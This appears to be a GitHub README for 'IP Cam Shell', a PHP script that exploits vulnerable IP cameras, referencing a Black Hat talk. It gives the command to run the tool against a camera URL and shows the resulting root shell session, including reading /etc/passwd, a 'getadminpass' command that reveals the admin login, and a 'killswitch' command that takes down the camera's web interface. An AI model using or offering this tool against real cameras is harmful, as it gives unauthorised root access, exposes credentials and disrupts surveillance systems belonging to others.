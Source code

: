 IP Cam Shell
=======

IPCS is a command line script for testing and exploiting a wide range of IP cameras as demonstrated by Craig Heffner in "Exploiting Surveillance Cameras Like a Hollywood Hacker". See the slides here: https://media.blackhat.com/us-13/US-13-Heffner-Exploiting-Network-Surveillance-Cameras-Like-A-Hollywood-Hacker-WP.pdf

Requirements
=======

 * PHP 5
 * A distribution of Linux. I haven't and won't test this on Windows.

Usage
=======

Using IPCS is pretty straight forward. You pass the URL to ipcs.php via the -u option. 

```
$ php ipcs.php -u http://192.168.0.3:8080
```

If the camera is vulnerable you'll be dropped in to a "shell" as root and be able to exploit the camera further.

```
$ php ipcs.php -u http://192.168.0.3:8080
Those who do not understand UNIX are condemned to reinvent it, poorly. — Henry Spencer
ipcamshell>
```

It's very much like being logged in to a stripped down Unix server as root.

```
ipcamshell> whoami
root
ipcamshell> id
uid=0(root) gid=0(root)
ipcamshell> ls /
bin
dev
etc
lib
linuxrc
mnt
opt
proc
sbin
scripts
tmp
usr
var
ipcamshell> cat /etc/passwd
root:x:0:0:Linux User,,,:/:/bin/sh
```

Of course it wouldn't be very fun without the ability to login and view the camera... 

```
ipcamshell> getadminpass
Username: admin
Password: hunter2
```

If you wish to kill the web server (to prevent someone from accessing the web interface temporarily), run the `killswitch` command. Note that the camera will continue to record regardless of this. Shutting the server down *might* switch the camera off, although that's complete speculation.

If the camera isn't vulnerable, the server isn't up, or the internet hates you, you'll recieve the following message:

```
Sorry, the server specified isn't vulnerable.
```

`quit`, `exit`, and `^C` also work to kill the process.

Note
=======
I do not claim the description or purpose of this tool to be 100% accurate. If you see anything which is incorrect in this document, please submit a pull request or open a new issue.
